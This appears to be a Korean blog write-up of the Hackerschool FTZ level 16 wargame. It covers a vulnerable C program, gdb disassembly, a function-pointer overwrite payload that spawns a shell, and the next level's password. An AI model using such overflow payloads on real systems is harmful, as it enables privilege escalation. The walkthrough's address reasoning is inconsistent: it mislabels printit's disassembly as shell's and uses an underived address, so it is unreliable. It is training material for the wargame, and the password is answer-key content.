 ```yaml
---
date: '2022-10-06'
before : '2022-10-05'
after : '2022-10-07'
title: '해커스쿨 FTZ 레벨 16'
categories: ['C-SEC', 'KOR','PWN']
summary: ''
thumbnail: './C_Sec.jpg'
---
```

### 0. 들어가기 전에.
여기까지 오니 슬슬 disas해서 스택을 살펴보는 과정은 (적어도 간단한 프로그램에선) 익숙해지는 것 같다!

### 1. Level 16

오늘은 함수 포인터에 관한 문제다. 소스코드를 확인해보자!
```
#include <stdio.h>

void shell() {

  setreuid(3097,3097);

  system("/bin/sh");

}

void printit() {

  printf("Hello there!\n");

}

main()

{ int crap;

  void (*call)()=printit;

  char buf[20];

  fgets(buf,48,stdin);

  call();

}
```
void(*call)()=printit 부분에서 printit의 포인터를 가져와 call()로 실행시켜준다. 즉, 그냥 printit을 실행하는 함수이다. fgets에서 48바이트 입력받으니 오버플로우는 충분히 가능하다. 그럼 우리가 해야 할 일은?


**shell 함수의 메모리 주소를 찾아내 *call에 덮어씌우면 된다!**

gdb에서 disas shell을 해보니 :
```
0x08048500 <printit+0>: push   ebp
0x08048501 <printit+1>: mov    ebp,esp
0x08048503 <printit+3>: sub    esp,0x8
0x08048506 <printit+6>: sub    esp,0xc
0x08048509 <printit+9>: push   0x80485c0
0x0804850e <printit+14>:        call   0x80483a4 <printf>
0x08048513 <printit+19>:        add    esp,0x10
0x08048516 <printit+22>:        leave
0x08048517 <printit+23>:        ret

```
ebp가 08048500을 가리키는 것을 볼 수 있다. 따라서 그냥 저 주소를 BOF공격으로 넣어주면 된다. 우리 배열부터 call 포인터까지의 거리는 main을 disas해보면 알 수 있을것이다 : 
```
0x08048518 <main+0>:    push   ebp
0x08048519 <main+1>:    mov    ebp,esp
0x0804851b <main+3>:    sub    esp,0x38
0x0804851e <main+6>:    mov    DWORD PTR [ebp-16],0x8048500
0x08048525 <main+13>:   sub    esp,0x4
0x08048528 <main+16>:   push   ds:0x80496e8
0x0804852e <main+22>:   push   0x30
0x08048530 <main+24>:   lea    eax,[ebp-56]
0x08048533 <main+27>:   push   eax
0x08048534 <main+28>:   call   0x8048384 <fgets>
0x08048539 <main+33>:   add    esp,0x10
0x0804853c <main+36>:   mov    eax,DWORD PTR [ebp-16]
0x0804853f <main+39>:   call   eax
0x08048541 <main+41>:   leave
0x08048542 <main+42>:   ret
0x08048543 <main+43>:   nop
0x08048544 <main+44>:   nop
0x08048545 <main+45>:   nop
0x08048546 <main+46>:   nop
0x08048547 <main+47>:   nop
0x08048548 <main+48>:   nop
0x08048549 <main+49>:   nop
```
저번 문제와 똑같이 거리는 40이다. 그럼 공격 코드도 다음과 같을 것이다 :
```
(python -c 'print "A"*40+"\xd0\x84\x04\x08"'; cat) | ./attackme
```
실행하면 Shell을 얻을 수 있다! 이 문제 또한 간단한 것 같다.


비밀번호 : king poetic
---
## Source

- 해커스쿨 FTZ
- Me!
